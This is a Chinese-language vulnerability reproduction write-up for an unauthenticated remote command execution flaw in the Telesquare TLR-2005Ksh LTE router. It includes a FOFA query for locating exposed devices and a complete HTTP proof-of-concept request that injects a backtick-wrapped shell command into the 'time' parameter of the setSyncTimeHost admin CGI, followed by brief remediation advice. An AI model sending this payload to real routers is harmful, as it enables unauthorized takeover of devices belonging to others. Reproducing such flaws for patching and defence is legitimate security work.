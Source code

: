 
# Telesquare TLR-2005Ksh 路由器 RCE 漏洞复现

### 0x01 产品简介

 Telesquare Tlr-2005Ksh 是韩国 Telesquare 公司的一款 Sk 电讯 [Lte](https://so.csdn.net/so/search?q=Lte&spm=1001.2101.3001.7020) 路由器。

### 0x02 漏洞概述

  Telesquare TLR-2005Ksh 存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经授权的攻击者可通过 setSyncTimeHost 执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="TELESQUARE-TLR-2005KSH"

![](assets/1701050067-ba84a48a2134ad37295bb40866e5d397.png)

### 0x04 漏洞复现 

PoC

```http
GET /cgi-bin/admin.cgi?Command=setSyncTimeHost&time=`id>1.txt` HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![](assets/1701050067-abff98e50c273778fe3e19280e425939.png)

PS:将命令执行结果写进 txt

验证

![](assets/1701050067-8212776ddb2e06f8e5bb1fc0667d691a.png)

### 0x05 修复建议

关闭互联网暴露面或者接口设置访问权限

升级至安全版本
